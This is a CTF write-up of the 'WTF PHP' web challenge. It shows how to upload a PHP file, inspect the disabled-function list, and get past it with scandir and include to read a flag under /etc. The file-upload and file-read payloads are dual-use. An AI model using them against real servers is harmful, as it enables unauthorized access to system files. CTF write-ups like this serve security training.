 WTF PHP
===
**Category**: Web

**Points**: 269 (254 solves)

**Author**: Karma
### Description
```
Your php function didnt work? maybe some info will help you xD 
PS: Flag is somewhere in /etc
Note: This chall does not require any brute forcing
```
- Site: `http://wtf-php.darkarmy.xyz/`
### Solution
- Upload file .php with file content `phpinfo()`. I can see disable function `exited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,error_log,link,symlink,syslog,ld,mail,exec,passthru,shell_exec,system,proc_open,popen,curl_exec,curl_multi_exec,parse_ini_file,show_source,highlight_file,file,fopen,fread,var_dump,readfile`
- But i can use `print_r, scandir, file_get_contents,include ...`.
### Payload
- List files and directories inside the specified path `print_r(scandir("/etc/"));`
- Cat flag `include "/etc/f1@g.txt";`
### Flag
- `darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}`
